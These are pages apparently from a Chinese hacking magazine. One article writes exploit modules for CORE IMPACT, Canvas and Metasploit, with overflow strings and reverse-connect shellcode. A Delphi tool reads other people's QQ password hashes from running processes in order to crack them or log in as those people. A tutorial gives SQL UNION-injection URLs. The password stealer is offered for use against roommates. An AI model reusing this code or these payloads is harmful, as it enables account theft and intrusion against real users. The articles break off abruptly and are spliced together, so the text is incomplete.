class HttpBannerGrabber(modulelib.Module):
    # 模块初始化
    def initialize(self):
        modulelib.Module.initialize(self)
        # 获得模块的参数 PORT
        self.targetport = self.getParameters().get('PORT')
```

这里要提的是，targetRun() 对每个选定的主机执行一次，并且每次 self.target_entity 都会指向目标主机。如果不了解 CORE IMPACT 渗透测试的基本流程，可访问 CORE Security 的官方网站观看 Demo。当然，大家也可以去申请个 CORE IMPACT Essential 的测试版本（每个 Trial License 的期限为 15 天），以便进行测试。

```python
def targetRun(self):
    # 获得主机
    host = self.target_entity
    # 发送 HTTP 请求
    httpsession = httplib.HTTP(host.get_ip(), self.targetport)
    httpsession.putrequest('HEAD', '/')
    httpsession.endheaders()
    errcode, errmsg, headers = httpsession.getreply()
```

CORE IMPACT framework 的调试信息输出函数有 3 个，包括 logHi()、logMed() 及 logLow()。使用时按照输出信息的重要性选择恰当函数，logHi() 用于十分重要的信息，logMed() 用于中等重要的信息，logLow() 用于不是很重要的信息。

```python
self.logMed('[%i] %s' % (errcode, errmsg))
ServerHeader = headers['Server']
self.logMed('Server: %s' % (ServerHeader))
```

用正则表达式搜索服务器应答数据 ServerHeader 中的服务器信息，正则表达式的格式比较复杂，大家可自己搜索相关资料。“.”代表任意字符，“*”代表全部匹配，可不限匹配内容的长度。合起来便是搜索以“Microsoft-”开头的字符串，这里检测目标是否为 Microsoft IIS Server。

## 快码加鞭

```python
search_string = "Microsoft[- ]*"
regexresults = re.search(search_string, ServerHeader)
if not regexresults:
    isMS = "probably not"
else:
    isMS = "Probably!"
    self.logHi("\n\nThe target is %s running a Microsoft web server!\n" % isMS)

### 在数据库中为目标主机创建并修改相关属性。
host.add_property("Web_server_header", "string")
host.set_property_value("web_server_header", ServerHeader)
### 存储数据
self.commitEntity(host)
### 在 Module Output 窗口中输出报告
report = self.getOutput()
report.addText('Grabbing a banner from host: ' + host, get_display_alias())
report.addText(ServerHeader)
report.output()

### 与 initialize() 对应，做最后的清理工作。
def finalize(self):
    modulelib.Module.finalize(self)
```

这里穿插一段对 CORE IMPACT 的介绍，以便于理解。CORE IMPACT Pro 的界面如图 1 所示。


图 1 CORE IMPACT Pro 界面

以下是 Core Impact 中的一些基本概念：

- 1. Agent：类似于一个小型 Command Shell。
- 2. Module：模块，跟 Metasploit 中的溢出脚本类似，但是其定义范围更广，任何执行的操作细节都可称之为模块。
- 3. The Console：Core Impact 图形界面主程序。
- 4. Entity Database：实体数据库，存储 Agent、用户配置等信息。

Core Impact 提供了 RTF（Rapid Penetration Tests）模板，里面包含了普通的渗透测试框架，总共有六个步骤：Information Gathering（信息收集）、Attack and Penetration（攻击和渗透）、Local Information Gathering（与 Agent 交互）、Privilege Escalation（提权）、Clean Up（整理）、Report Generation（报告）。对于普通测试，这个模板就已经够了。如果想自定义模块，可以在主界面左侧 Module Panel 中的“Advanced”选项卡中进行操作，即双击模块或拖动模块至目标上。

趁热打铁，再来分析一个溢出模块的代码。

```xml
Example2.py
__xmldata__ = """
{省略部分代码}
<property type="parameters" key="parameters">
    <property type="string" key="TARGET">192.168.0.1</property>
    <property type="uint16" key="PORT">554</property>
    <property type="uint16" key="EGG_PORT">0</property>
    <property type="user_Connect_to_target_Connect_from_target_Reuse_connection" key="CONNECTION_METHOD">方法连接</property>
</property>
```

```python
{省略部分代码}
"""
</entity>

### 引入相关文件。
from impact import exploitlib
from impact.LibEgg import SubstractSPEgg, GetCodeAddressEgg, XorEgg
```

由于是一个远程溢出模块，因此这里是 exploitlib.RemoteExploit，不是 modulelib.Module。当然，这里还有其他的一些选择，具体可以参考 CORE IMPACT framework 的源代码进行选择。比如还有更具体的选择：

- exploitlib.FTPServiceExploit
- exploitlib.WebServiceExploit
- exploitlib.IISExploit

如果是本地溢出模块则可以选择 exploitlib.LocalExploit，如果是基于浏览器的溢出则可以选择 clientside.WebBrowserExploit。

Windows XP SP2 发布后，Windows 的安全性得到了很大程度上的提升。内部增加了 checksum 防止执行 shellcode，因此传统的溢出方法都没什么效果了。现在 Windows 的溢出漏洞基本上都是关于 IE 的，普遍使用了 HeapSpray 技术，这里简单介绍一下。由于增加了 checksum 机制，当 shellcode 覆盖了返回地址后，程序会直接抛出异常，而不会执行 shellcode。不过，如果返回地址被修改成了堆中的一个地址，Windows 则会网开一面，虽然 checksum 验证通不过，但是程序仍会继续执行，从而执行 shellcode。正如之前说的一样，现在溢出的难度增大了，而堆溢出又比栈溢出对技术的要求高，因此这里就不介绍浏览器溢出模块的编写。不过堆溢出也有值得称赞的地方，利用堆溢出可以修改内存中任意地址的内容，这是栈溢出所不能及的。

```python
class TemplateExploit(exploitlib.RemoteExploit):
    # 注意类名要与开头声明中一致；这样 CORE IMPACT 才能正确解析。
    def targetSetup(self):
        exploitlib.RemoteExploit.targetSetup(self)
        # 构造 egg
        self.egg = SubstractSPEgg.SubstractSPEgg()
        self.egg['size'] = 3000  # 大小
        # 还为定位烦恼吗？一句话轻松搞定！
        self.egg += GetCodeAddressEgg.GetCodeAddressEgg()
        self.egg += XorEgg.XorEgg(self, basicEgg())
        self.egg['invalidChars'] = '\x00-<> '  # 截断的字符
```

CORE IMPACT framework 会根据提供的信息创建合适的 egg。如果对上面的 egg 构造不是很理解，请参考《漫话溢出 II》中构造 shellcode 部分的讲解内容。

接着是设定最大尝试次数，如果中途只想要溢出模块再尝试一次，那么抛出 exploitlib.SkipAttackException 即可。当 agent 成功安装到目标主机，模块就会执行完毕。

```python
self.setMaxTries(10)
def attackRun(self):
```

这是溢出模块的核心代码。如果执行过程中遇到错误，则可以抛出异常：

- exploitlib.ConnectionRefusedException
- exploitlib.AuthFailedException
- exploitlib.UnsupportedTargetException
- exploitlib.BruteForcingLimitException
- exploitlib.NotVulnerableTargetException
- exploitlib.MissingInformationException（当信息缺失时抛出。比如在执行 RPT（Rapid Penetration Test）中的 Information Gathering 后没能获得目标主机的端口信息，则某些溢出模块就无法继续。）
- exploitlib.AbortAttackException（自定义异常信息）

```python
self.logMed("Try %d" % self.tries)
self.logDebug("Egg len %d" % self.codelen())
self.toSend = "DESCRIBE /" + "A" * 1023
self.toSend += "/" + self.code
self.toSend += " /.smi RTSP/1.0\r\n\r\n"
self.logDebug("sending %d bytes." % len(self.toSend))
```

发送 egg，当执行到 attackRun() 时，self.sock 会以默认方式调用 setupConnection() 来自动连接到目标主机的指定端口。

```python
self.sock.send(self.toSend)

def agentConnected(self, agent, proxyCall):
    # 当 agent 连接时候会调用此函数。
    signal(proxyCall.get(proxyCall.SP_SIGCHLD), proxyCall.get(proxyCall.SP_SIG_DFL))
    signal(proxyCall.get(proxyCall.SP_SIGALRM), proxyCall.get(proxyCall.SP_SIG_IGN))

def agentNotConnected(self):
    # 调用 attackRun() 后如果不能连接 agent 则会调用此函数。
    pass
```

CORE IMPACT 开发组还给出了在代码编写上的建议。一是建议统一使用 4 字节的缩进，二是推荐以如下方式处理异常，除非你需要对异常进行额外的处理：

```python
class ExampleOfExceptions:
    def test(self):
        raise Exception('Function not implemented')

    def run(self):
        try:
            self.test()
        except Exception, e:
            self.logHi('Error: %s' % str(e))
```

如果特别需要对异常进行额外处理，则按下面方式处理异常：

```python
try:
    self.do_something()
except:
    self.logHi('I have caught something')
```

另外还给出了 xmldata 中的标签定义：

```text
<para>
A text paragraph
<list>
A list of items with bullets
<li>
An item in a list
<link>
A URL reference in a list
<steplist>
An ordered list of steps
<step>
A step inside a steplist
<dlist>
A list of variable descriptions
（完整的定义请参见 Definition.txt）
```

大家在填充 xmldata 时可以参照以上介绍。介绍完了 CORE IMPACT，下面让我们来看 Immunity Canvas 和 Metasploit。如图 2 所示，为 Immunity Canvas 的界面。首先分析一个简单的本地溢出模块的代码。

```python
Example3.py
#!/usr/bin/env python
import sys
if "." not in sys.path: sys.path.append(".")
import os, getopt
import socket
import time

### exploitutils 集合了许多有用的东西。
from exploitutils import *
from canvasexploit import canvasexploit
import canvasengine
from shelllistener import *

### 相比之下，Immunity Canvas framework 下对模块信息的声明更为简单。
NAME = "MODULEFNAME"
DESCRIPTION = "MODULEDESCRIPTION"
DOCUMENTATION = {}
DOCUMENTATION["Date public"] = "DATEPUBLIC"
DOCUMENTATION["CVE Name"] = "CVSNAME"
VERSION = "1.0"
GTK2_DIALOG = "dialog.glade2"
PROPERTY = {}
PROPERTY['TYPE'] = ["Exploit"]
PROPERTY['SITE'] = ["Local"]
PROPERTY['ARCH'] = [["Windows"]]
NOTES = '''
'''

class theexploit(canvasexploit):
    def __init__(self):
        # 初始化
        canvasexploit.__init__(self)
        self.name = NAME
        return

    # 获取参数
    def getargs(self):
        return

    def run(self):
        """
        run() 将对每个选择的主机分别调用一次。
        """
        # 输出信息
        self.setInfo("%s (in progress)" % (NAME))
        self.getargs()
        # 获得每个选择的 node
        for node in self.argsDict["passednodes"]:
            type = node.nodetype
            nodename = node.getname()
            caps = node.capabilities
            if "win32api" not in caps:
                self.log("Node %s not a Win32 node..." % nodename)
                continue
        return 0

### 检测运行环境
if __name__ == '__main__':
    print "This win32 local module is meant to be run only within CANVAS!"
```

下面则是一个远程溢出模块的代码。

```python
#!/usr/bin/env python
import sys
if "." not in sys.path: sys.path.append(".")
import os, getopt
```


图 2 Immunity Canvas 界面

## 快码加鞭

```python
import socket
from exploitutils import *
from tcpexploit import tcpexploit
import canvasengine
import time

### 相关信息
NAME = 'EXPLOITNAME'
DESCRIPTION = '[EXPLOITDESCRIPTION]'

(省略部分代码)

class theexploit(tcpexploit):
    def __init__(self):
        tcpexploit.__init__(self)
        self.port = 80
        self.host = ''
        self.shellcode = '\xcc' * 298
        self.badstring = '\x00'  # 截断的字符
        self.setVersions()
        self.version = 1
        self.name = NAME
        return

    def displayVersions(self):
        for v in self.versions.keys():
            print 'Version %d: %s' % (v, self.versions[v][0])

    def setVersions(self):
        self.versions = {}
        # name, jmp esp, writeloc, writable, shellloc
        self.versions[1] = ('Windows XP', 0x01020304)

    # MOSDEF 是一个 C 语言的编译器，应用于反向连接等功能。
    def neededListenerTypes(self):
        return [canvasengine.WIN32MOSDEF]

    # 创建一个具有反向连接功能的 shellcode。
    def createShellcode(self):
        host = self.callback.ip
        port = self.callback.port
        return self.createWin32Shellcode(self.badstring, host, port)

    def test(self):
        # 获得选定的目标
        self.getargs()
        # 类似于 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s = self.gettcpsock()
        try:
            # 连接目标主机
            s.connect((self.host, self.port))
        except:
            # 将异常信息输出到 log 窗口中。
            self.log('No connection could be established')
            return 0

    # 获取参数
    def getargs(self):
        self.host = self.target.interface
        self.port = int(self.argsDict.get('port', self.port))

    def run(self):
        self.getargs()
        # 输出任务信息
        self.setInfo('%s attacking %s:%d (in progress)' % (NAME, self.host, self.port))
        if self.version == 0:
            self.log('Automatic versioning not enabled.')
            self.setInfo('%s attacking %s:%d done (success!)' % (NAME, self.host, self.port))
            return 0

        self.log('Attacking %s:%d' % (self.host, self.port))
        splitstring = self.makesploit()
        try:
            s = self.gettcpsock()
            s.connect((self.host, self.port))
        except:
            self.log('Could not connect')
            self.setInfo('%s attacking %s:%d done (failed: could not connect!)' % (NAME, self.host, self.port))
            return 0

        # 发送！
        s.sendall(splitstring)
        if self.ISucceeded():
            self.setInfo('%s attacking %s:%d done (success!)' % (NAME, self.host, self.port))
            return 1
        else:
            self.setInfo('%s attacking %s:%d done (failed)' % (NAME, self.host, self.port))
            return 1

    def makesploit(self):
        # 为攻击作准备。
        geteip = self.versions[self.version][1]
        splitstring = ''
        return splitstring

(省略部分代码)
```

你也可以在自己编写的模块中调用其他模块，实现方法如下：

```python
app = self.engine.getModuleExploit('someexploit')
### someexploit 为你想要调用的模块
app.link(self)  # 把要调用的模块的参数设置成你自己的参数
ret = app.run()   # 调用
```

不过载入要调用的模块需要一定的时间，如果需要经常调用，则可以先把它们载入，实现方法如下：

```python
canvasengine.registerSomeModules(['telnetbanner', 'Insight', 'spdetect'])
### 在[]中填写你需要载入的模块
```

我个人觉得 Immunity Canvas 模块的编写格式有点杂，相比而言我更喜欢 CORE IMPACT 的风格。

下面让我们来看看伟大的开源渗透工具包 Metasploit。以上两个软件均为商业软件，而 Metasploit 则是免费的，并且 Metasploit 的功能也并不逊色，因此我是举双手支持它的。如图 3、图 4 所示为 Metasploit GUI 和 Metasploit Web 的界面。

Metasploit 从 3.0 开始便抛弃了 PERL，而使用 Ruby 编写。Ruby 的可扩展性更强，具有强大的面向对象编程功能，不过运行速率比 PERL 低。基本上 PERL 最快，其次是 Python，PHP 和 Ruby 运行速率差不多，不同的是 PHP 运行时占用内存大，而


Ruby 则是占 CPU 多，因此 Metasploit 3 的运行效率比之前的版本要低一些。废话不多说了，揉揉眼睛，看看 Ruby 语言。

```ruby
require 'msf/core'

module Msf
### 类名要写与溢出模块所在的目录相对应
class Exploit::ExploitTest < Msf::Exploit::Remote
  include Exploit::Remote::Tcp

  def initialize(info = {})
    # 一样是填空
    super(update_info(info,
      'Name' => 'ExploitTest',
      'Platform' => 'win',
      'Targets' => [
        ['Windows 2000', {'Ret' => 0x77F8948B}],
        ['Windows XP SP2', {'Ret' => 0x7C914393}]
      ],
      'Payload' => {
        'Space' => 200,
        'BadChars' => "\x00"
      }
    ))
  end

  def exploit
    connect
    # 构造 Buffer Attack String
    attack_buf = 'a' * 100 + [target['Ret']].pack('V') + payload.encoded
    sock.put(attack_buf)
    handler
    disconnect
  end
end
end

### 连接-->构造 Buffer Attack String-->发送-->处理-->断开连接
### 十分简洁
```

可以看到，两个商业软件 CORE IMPACT 和 Immunity Canvas 都是用 Python 编写模块，而开源工具 Metasploit 用的则是 Ruby。至于 Python 和 Ruby 哪个更好，争论一直没有结果，大家可根据自己的需要和喜好选择。Python 现在已经发展得有一定的规模，相关资源较多，Ruby 也不错，不过历史没有 Python 悠久，在资源上有很大的局限性，基本上是日文的，再就是有一些英文文档。Python 在很多地方均有运用，好像美国航空航天局使用的就是 Python，而 Ruby 现在在日本很流行。再就是之前提到的运行效率差别，也应该纳入考虑标准之内。

再看看它们的其它功能，它们都能生成特定功能的 shellcode。CORE IMPACT 中的 LibEgg，以及之前介绍过的 InlineEgg，再就是 Immunity Canvas 中的 win32shellcodegenerator，和 Metasploit 中的 generate 均能实现这个功能。不过 Metasploit 的功能更简单，可以直接选择所需要的功能，而 CORE IMPACT 和 Immunity Canvas 则需要自己进行一些处理。这些模块比较实用，不过编写起来可就伤神了，毕竟在汇编中游走，过的可不是好日子，这点大家看看它们的源码就能体会到了。

再就是它们的基本架构也有所不同。CORE IMPACT 和 Immunity Canvas 没有提供像 Metasploit 中那么多可选的功能，前两者基本上都是以在目标主机上安装类似于后门的程序来进行渗透，而运用 Metasploit 我们则可以实现下载、执行等多种多样的功能。这也并非说 CORE IMPACT 和 Immunity Canvas 不好，只是思想不一样罢了。况且从另一个角度来看，CORE IMPACT 和 Immunity Canvas，特别是 CORE IMPACT 的易操作性更强。

最后还有一个十分重要的因素，那便是它们的价格。这我就不必多说了，大家可以根据实际情况来作出选择。

这些 frameworks 大体降低了对编写者的技术要求，由于它的可重用性，代码大大精简，比起 C/C++ 写的溢出程序要清爽得多。尽管执行效率比较低，但溢出程序对执行效率的要求不高。其实用 C/C++ 编写也不错，它可以加深我们对系统的理解。另外可以看到，编写的基本思路是大同小异的，只是具体的实现上有些差别。当然，这里举的只是最简单的例子，还没有加入其它功能，比如 FTP 远程溢出必然接触到 FTP 连接，不过基本上都是差不多的。

框架明了，内容还是得自己填充，各位尽情发挥啦。大家可以自己动手把之前的 stack_overflow.exe 改成用套接字接收 password 的程序，然后动手写个溢出模块对其进行溢出。

简约至美。

（文章中所涉及的相关代码及工具都已经收录在本期光盘）

> **编辑点评：**
>
> 作者分别介绍了 CORE IMPACT、Immunity Canvas 和 Metasploit 三种溢出编写软件，至于选择哪一个作为自己的工具，那就要仁者见仁，智者见智了，别忘了写出好东西要一起分享哦！

## Delphi 也来编写 QQ 密码读取器

- 从本文您可以学到：
- 了解 QQ 命令行登录方式
- 了解 QQ 密码的加密方式
- 利用 Delphi 编程读取命令行形式启动的 QQ 密码

但是我感觉这个 VB 版的太简陋了，功能也少了点，所以自己才做了这个 Delphi 版的，在 VB 版的基础上增加了从 QQ 游戏进程中读取 QQ 加密后的密码及拥有 QQ 登录器的功能，最后稍微做了点美化，感觉很不错。

### 前言

看到网上有人放出 VB 版的 QQ 密码读取器，当登录 QQ 后可以从 QQ 进程里读取 QQ 的密码，还能破解出密码原文，如图 1 所示。

我感觉这东西有点用处，我们寝室的几个人几乎每天都把 QQ 从早挂到晚，而且经常挂着 QQ 人就走开了，如果有了这个东西，正好可以跟他们开个玩笑。


## 浅析 QQ 命令行登录格式及密码加密过程

QQ 命令行的登录方式如下：

`QQ.exe /START QQUIN:QQ号码 PWDHASH:加密后的QQ密码 /STAT:登录状态（40 隐身，41 正常）`

PWDHASH 就是对我们的原始 QQ 密码进行 MD5 散列算法处理，得到一个 16 字节的 MD5 HASH 字节组，然后再用 BASE64 编码对这个 HASH 字节组做第二次编码得到的值。只要使 QQ 程序获得命令行启动参数函数，就可以成功登录了，这里要获取的参数是 QQ 号码、加密后的 QQ 密码、登录状态。知道了命令行登录的格式后，就可以操刀编写我们的利器了，首先运行 Delphi 7.0。

## 程序功能及控件布置与属性设置

程序功能很简单：主要是从 QQ 或者 QQ 游戏的进程中获取启动参数，从启动参数中剥离出加密后的 QQ 密码，再经过 QQ 版的 BASE64 解码找出 MD5 加密后的 QQ 密码，然后再从网站或者暴力破解这个密码，还原出最终的 QQ 密码。其次，完成一个可以使用加密后密码登录 QQ 的模块，方便我们不能还原他人 QQ 密码时直接使用加密后的密码登录他们的 QQ。


图 2　控件的布局

主要实现的功能就这些，控件的布局也很简单，如图 2 所示。Delphi 基本的属性，相信熟悉的朋友都会设置，这里主要是把“QQ 密码”文本框中的密码使用“*”表示，这样自己登录 QQ 时别人就看不到原密码了，即把“QQ 密码”后面文本框的“PassWordChar”属性设置为“*”，使密码不明文显示。

## 代码编写

网上搜索了一下，没有直接读取 QQ 密码程序的 Delphi 源码，但是通过参考其它代码，再利用 VB 版的代码，我们可以打造出有自主产权的 Delphi 版 QQ 密码读取程序。程序编写过程中，我们先来完成 QQ 登录部分的代码。

先在 uses 里添加一些要用到的单元：Registry（读取注册表，读取 QQ 程序路径用）；IdHashMessageDigest（MD5 加密用）；TlHelp32（查找进程等用）；StrUtils（使用 MidStr 等函数时用）；ShellAPI（调用 ShellExecute 时用；用于从网站查找 MD5 密码时）。

先编写一个 BASE64 加密函数，用于加密 QQ 密码经 MD5 加密后的值，代码就不贴出来了，网上 Delphi 的有很多，然后编写一个 QQ 命令行登录的函数，代码如下：

```delphi
function GetCommandLine(QQNum, QQPw: string; QQState: integer): string;
// QQ 命令行登录函数
type
  TempChar = array[0..15] of char;
var
  md5: TIdHashMessageDigest5;
begin
  md5 := TIdHashMessageDigest5.Create;
  result := ' /START QQUIN ' + QQNum + ' /PWDHASH ' + Base64(TempChar(md5.HashValue(QQPw))) + ' /STAT ' + IntToStr(QQState); // 命令行登录 QQ 的格式
  md5.Free;
end;
```

同时编写当点击“登录”按钮时触发的登录 QQ 事件，代码如下：

```delphi
if qqnum.text<>'' then
begin
  if not checkbox1.Checked then // 如果不是用加密后密码登录
  begin
    if qqpass.Text <>'' then
    begin
      winexec(PChar(qqpath+' '+GetCommandLine(trim(qqnum.text), trim(qqpass.text), 41)), SW_normal);
    end
    else
    begin
      messagebox(0, '好像忘记输入密码了吧？', '注意', 0);
    end;
  end
  else
  begin
    if edit6.Text <>'' then
    begin
      winexec(PChar(qqpath+' '+'/START QQUIN '+trim(qqnum.text)+' '+'/PWDHASH '+trim(edit6.text)+' '+'/STAT 41'), SW_normal); // 直接用加密后的密码登录
    end
    else
    begin
      messagebox(0, '好像忘记输入密码了吧？', '注意', 0);
    end;
  end;
end;
```

这样，一个简单的命令行 QQ 登录器就完成了，它还有 QQ 防盗的功能哦。接下去是完成读取 QQ 密码方面的功能，首先编写一个读取进程启动参数的函数（参考了网上的代码），代码如下：

```delphi
function Process_CmdLine(mProcessID: THandle): WideString; // 获取进程启动参数
var
  vProcess: THandle;
  vProcessBasicInformation: PROCESS_BASIC_INFORMATION;
  vPEB: PEB;
  vNumberOfBytesRead: Longword;
  vProcessParameters: PROCESS_PARAMETERS;
begin
  Result := '';
  vProcess := OpenProcess(PROCESS_QUERY_INFORMATION or PROCESS_VM_READ, False, mProcessID);
  if vProcess = 0 then Exit;
  try
    if NtQueryInformationProcess(vProcess, ProcessBasicInformation, @vProcessBasicInformation, SizeOf(vProcessBasicInformation), nil) <> 0 then Exit;
    if not ReadProcessMemory(vProcess, vProcessBasicInformation.PebBaseAddress, @vPEB, SizeOf(vPEB), vNumberOfBytesRead) then Exit;
    if not ReadProcessMemory(vProcess, vPEB.ProcessParameters, @vProcessParameters, SizeOf(vProcessParameters), vNumberOfBytesRead) then Exit;
    SetLength(Result, vProcessParameters.CommandLine.Length div 2);
    if not ReadProcessMemory(vProcess, vProcessParameters.CommandLine.Buffer, @Result[1], vProcessParameters.CommandLine.Length, vNumberOfBytesRead) then Exit;
  finally
    CloseHandle(vProcess);
  end;
end;
```

然后编写“获取 HASH”按钮的事件，把 QQ 程序进程或者 QQ 游戏程序进程的句柄传递给 Process_CmdLine，代码如下：

```delphi
procedure TForm1.Button1Click(Sender: TObject); // 用于获得 QQ 的命令行参数
var
  ProcessName: string; // 进程名
  pname: string;
  ProcessID: integer; // 进程标示符
  QQpass: string;
  ContinueLoop: BOOL;
  FSnapshotHandle: THandle; // 进程快照句柄
  FProcessEntry32: TProcessEntry32; // 进程入口的结构体信息
begin
  if radiobutton1.Checked then pname := 'qq.exe';
  if radiobutton2.Checked then pname := 'qqgame.exe';

  FSnapshotHandle := CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0); // 创建一个进程快照
  FProcessEntry32.dwSize := SizeOf(FProcessEntry32);
  ContinueLoop := Process32First(FSnapshotHandle, FProcessEntry32); // 得到系统中第一个进程
  while ContinueLoop do
  begin
    ProcessName := FProcessEntry32.szExeFile;
    ProcessID := FProcessEntry32.th32ProcessID;
    if UpperCase(ProcessName) = UpperCase(pname) then
    begin
      qqpass := Process_CmdLine(ProcessID);
      if Pos(qnum.Text, qqpass) <> 0 then // 如果找到了指定的 QQ 号码
      begin
        base64.Text := qqpass;
      end;
    end;
    ContinueLoop := Process32Next(FSnapshotHandle, FProcessEntry32);
  end;
  if Trim(base64.Text) = '' then
  begin
    messagebox(0, '报告长官！什么都没找到！', '注意', 0);
  end;
end;
```

这样，我们就可以把经 BASE64 编码加密过的 QQ 密码还原为 MD5 加密的密码了，如图 4 所示。


最后把这个密码拿到 MD5 破解的网站上去跑一下，运气好的话也许别人的 QQ 密码就到手了。真不行的话那只好暴力破解了。不过其实也未必要破解他们的密码，如果是为了简单地利用一下，直接用命令行登录的格式登录别人的 QQ 就可以了。

## 程序的美化与注意点

这样的程序界面或许太简陋了些，下一步我们要把自己的程序美化一下，在这里我用下面的方法来给程序添加漂亮的皮肤。首先，把下载的“skin 控件包”安装一下，再把控件里边的所有资源文件，还有 dcu 文件，复制到 Delphi 安装目录下的 lib 文件夹下。

然后用下面的操作来安装你的皮肤控件：file-->open-->你的控件的位置-->WinSkinD7.dpk-->install，这个时候 Delphi 的控件面板上会出现“VCLSkin”一栏，把“SkinData”控件拖到窗体上，修改 SkinData1 的 SkinStore 属性为“skins”文件夹下的任意一个“skin”文件，设置 SkinData1 的“Active”属性为“true”。运行程序，漂亮的 Delphi 界面就生成了，如图 5、图 6 所示。


注意，最好使用完全安装的 Delphi，绿色版本在安装控件时可能会找不到某些文件，其次当提示无法输出到某个目录时请按提示新建一个目录。


基本上，程序到这里已经完成了，只是在使用过程中还有几个注意点：首先是如果 QQ 等进程是被 360 保险箱等保护的，那我们的程序在获取进程参数时是会被保险箱程序拦截的，如图 7 所示。不过这时你只要选择允许就可以了。


其次，很多时候你直接把 QQ 号码输进去时，点击“获取 HASH”，也许什么都获取不到。

以上步骤是获取 QQ 或者 QQ 游戏启动参数的代码，运行后效果如图 3 所示。


接下来要做的是提取启动参数中加密后密码的值，是“********************=”这样形式的字符串，这个也是比较简单的，使用 Delphi 中的 MidStr 和 Pos 函数就可以直接提取出来了，代码就不写了，具体看光盘中的附件。

提取出加密密码后的步骤是 BASE64 的解码，这个部分我参考了 VB 版的代码，稍微修改了一下，“Bin2Hex”、“Hex2Bin”是一些进制转换的函数，主要还是为 BASE64 的解码准备的，QQ 版“Base64 解码”函数的核心代码如下：

```delphi
Function Base64Decode(cString:String):String; // QQ 版 Base64 解码
var
  str,dStr,tStr:String;
  i,l,i1,i2:Integer;
begin
  i1:=3; i2:=4;
  l:=Length(cString)-2; // 去去两个等号的空间（不减也行）
  For i:=1 To l do
  begin
    dStr:=HexBase64_1(midstr(cString,i,1));
    tStr:=tStr+Hex2Bin(Leftstr(dStr,1))+Hex2Bin(Rightstr(dStr,1));
  end;
  l:=Length(tStr);
  dStr:='';
  while i1<=l do // 循环，步长为 8
  begin
    dStr:=dStr+midstr(tStr,i1,6);
    i1:=i1+8;
  end;
  str:='';
  while i2<=length(dstr) do
  begin
    str:=str+bin2hex(midstr(dstr,i2,4));
    i2:=i2+4;
  end;
  result:=str;
  if Length(result) > 32 then result := Leftstr(result,32);
End;
```

## 《黑客渗透笔记》union 注入技巧

首语：

“黑手”已经推出了不少图书，而且在杂志的筹划过程中不断地进行创新。为了让大家能够对“黑手”出的新书有一个更好、更理性的认识，我和土豆大叔商量了一下，决定另外开辟一个栏目，专门来把将要发行的新书的一篇章节发出来供读者欣赏，这样再买书的时候大家就可以根据自己的水平来“量体裁衣”了。下面这篇文章就是将要发行的《黑客渗透笔记》（原名：渗透大全）中的一小节。大家好好欣赏下。后面还有已经上市的《黑客词典》中文版的小节选取。

从本文你可以了解到 UNION 注入技巧。

在注入的时候有一些情况我们也经常碰到，那就是没有错误回显。除了一个个去猜，或者利用时间差的方法来盲注外，另一个好的技巧就是 union 联合查询了。可我最近发现 union 注入除了在和 mysql 搭配时极少出错外，和 mssql 搭配的时候问题就很多，如字段类型不匹配或者页面上没有可回显的内容。今天我们要解决的就是这两个问题。

但在这之前，我得提一下如何获得当前注入点的字段数。获得字段数的方法我知道的有三种，第一种就是利用 having 1=1——逼出当前所有的字段名，如：

```
http://www.xxxx.com/custom/Noti_02.asp?id=366%20having%201=1--
```

有很多人利用这个方法暴得当前列名值，这样我们再利用 group by 一行一行逼出所有字段数。如提交如下 URL：

```
http://www.xxxx.com/custom/Noti_02.asp?id=366%20group%20by%20khnotice.notice_id,khnotice.notice_idx,khnotice.name,khnotice.title,khnotice.writedate,khnotice.fromdate,khnotice.todate,khnotice.filename,khnotice.tag,khnotice.readnum,khnotice.content%20having%201=1--
```

返回如图 1 所示的信息。


这里得到的错误不再是列名了，而是出现了类似“类型不匹配”的信息。再数一下，发现一共有十一个字段，那么字段数当然就是 11 了。

第二种利用的就是 order by N 方式了，注意下，不一定非要 order by 11 返回正确，order by 12 返回错误就确定字段数是 11。我这里的 order by 11 一样是返回错误，如图 2。


因此，这里主要看返回的信息提示，而提交 order by 12 时的返回信息如图 3。


第三种就是使用 and 1=2 union select n1,n2……这样的办法一个一个地去试。但是，如果字段数一多，再加上没有回显，这种方法是很没有意思的，但请不要忽略这种方法。有一次我碰到的就是不能 order by，而利用这个方法依次猜到了当前字段数。

字段数取得后接下来就是回显问题，如何能够像 MYSQL 一样把数字显示在当前页面中呢？如上例中，我们会提交如下 URL：

```
http://www.xxxx.com/custom/Noti_02.asp?id=366%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11
```

这是我们常用的手法，但得到的结果如图 4。这个时候怎么办？有十一个字段，我们怎么确定是哪一个字段可以回显呢？


字段类型不符呢？要一个一个地替换后再看回显吗？如果你够聪明，就会想到全部用 null 来替换，我们来试一下，提交如下 URL：

http://www.xxxx.com/custom/Noti_02.asp?id=366%20and%201=2%20union%20select%20null,null,null,null,null,null,null,null,null,null,null

返回的信息如图 5。


**图5**

这下你是不是惊呆了？什么？竟然连 null 都出错？其实不是的，我们仔细看一下错误回显，提示的并非类型不匹配，有个关键性的字眼是 “DISTINCT”，我们来到 MSDN 查一下 union 的用法（http://msdn.microsoft.com/zh-cn/events/bb399797.aspx），看一下官方的解释：

> UNION  
> 指定组合多个集合并将其作为单个集合返回。  
> ALL  
> 指定组合多个集合并将其作为单个集合返回（包括重复项）。如果未指定，则从结果集中删除重复项。

Union 只能返回单个集合并且不包含重复项的旨意，显然我们这个注入语句后面包含了不同的结果集。这里要解决的就是不让其暴错，而不是匹配的问题，其参数 ALL 就可以解决。

我们提交：

http://www.xxxx.com/custom/Noti_02.asp?id=366%20and%201=2%20union%20all%20select%20null,null,null,null,null,null,null,null,null,null,null

问题原本就这么解决了，但新的问题又来了，如图 6。


**图6**

这里我遇到的情况比较特殊吧，但提醒一点，就是因为 NULL 可以匹配任意类型，而我们遇到的大多数都是数字和字符串，因此我们大可以用数字来一个一个地猜，而不用管这类错误。

如我们把第一个 1 和第二个 2 用 NULL 来代替后发现，返回的都是和图 6 一样的错误，如图 7。


**图7**

既然都是同一个类型的错误，我们不用管，继续用数字代替后面的 NULL。当替换数字 “4” 的时候还是这样的错误，但当我把第五个 NULL 采用 “5” 代替的时候，想要的结果出现了，URL：

```
http://www.xxxx.com/custom/Noti_02.asp?id=366%20and%201=2%20union%20all%20select%201,2,3,4,5,null,null,null,null,null,null
```


**图8**

2,3,4,5,null,null,null,null,null,null，如图 8。就这样，一个非常怪的 UNION 注入完成了。另外，如果字段数只有 1 个的话，我们大可不必去管是什么类型，当然也要配合 union all 了，可以直接进行查询，如：

